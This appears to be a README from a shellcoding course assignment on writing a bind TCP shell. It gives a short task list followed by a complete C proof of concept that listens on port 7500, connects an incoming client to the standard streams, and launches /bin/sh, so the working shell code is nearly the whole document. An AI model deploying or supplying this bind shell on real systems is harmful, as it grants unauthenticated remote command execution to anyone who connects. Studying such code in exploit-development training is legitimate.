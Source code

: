 Assignment #1: Shell Bind TCP
=============================

Instructions:
-------------
* Bind to a port
* Exec /bin/sh on incoming connection
* Port number should be easily configurable

PoC:
----

```
int main(void){
	int fd, newfd;
	struct sockaddr_in server_addr;
	char *argv[] = { "/bin/sh", NULL };

	server_addr.sin_family = AF_INET;
	server_addr.sin_port = htons(7500);
	server_addr.sin_addr.s_addr = htonl(INADDR_ANY);

	fd = socket(AF_INET, SOCK_STREAM, 0);

	bind(fd, (struct sockaddr *) &server_addr, 16);

	listen(fd, 1);

	newfd = accept(fd, NULL, NULL);

	//dup2 (0,1,2) (client will be connected to stdin, stdout and stderr)
	dup2(newfd, 0);
	dup2(newfd, 1);
	dup2(newfd, 2);

	execve(argv[0], &argv[0], NULL);

	return 0;
}
```
